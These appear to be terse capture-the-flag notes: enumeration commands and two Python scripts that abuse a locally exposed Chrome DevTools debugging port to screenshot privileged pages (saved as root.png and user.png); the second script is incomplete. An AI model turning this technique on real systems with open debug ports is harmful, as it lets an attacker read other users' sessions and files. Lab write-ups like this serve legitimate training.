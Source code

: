 Use `ps aux`Get to run the terminal, and use `netstat -nulte`Get to run the service port.

![[Pasted image 20240524132615.png]]

![[Pasted image 20240524132439.png]]
![[Pasted image 20240524132456.png]]



![[Pasted image 20240524135206.png]]
![[Pasted image 20240524135329.png]]
![[Pasted image 20240524131859.png]]
use chatgpt to writecode
root.png
```
import websocket
import json
import base64
# Extract the WebSocket debugger URL from the list
web_socket_debugger_url = "ws://127.0.0.1:33845/devtools/page/23d64460-094e-4cad-9733-5f1d26d1b83a"

# Establish a WebSocket connection
ws = websocket.create_connection(web_socket_debugger_url, suppress_origin=True)

# Send a command to the debugger
command = json.dumps({"id": 1, "method": "Page.captureScreenshot", "params": {"format": "png"}})
ws.send(command)

# Receive the response
response = json.loads(ws.recv())

# Check if the result contains the screenshot data
if 'result' in response and 'data' in response['result']:
    print("Success file reading")
    with open("root.png", "wb") as file:
        file.write(base64.b64decode(response['result']['data']))
else:
    print("Error file reading")
    print(f"Response: {response}")

# Close the WebSocket connection
ws.close()
                
```
user.png
```
import websocket
import json
import base64

# Extract the WebSocket debugger URL from the list
web_socket_debugger_url = "ws://127.0.0.1:33845/devtools/page/d431f338-a2eb-4b6b-a68e-f6bd2c2fcc4b"

# Establish a WebSocket connection
ws = websocket.create_connection(web_socket_debugger_url, suppress_origin=True)

# Send a command to the debugger
command = json.dumps({"id": 1, "method": "Page.captureScreenshot", "params": {"format": "png"}})
ws.send(command)

# Receive the response
response = json.loads(ws.recv())

```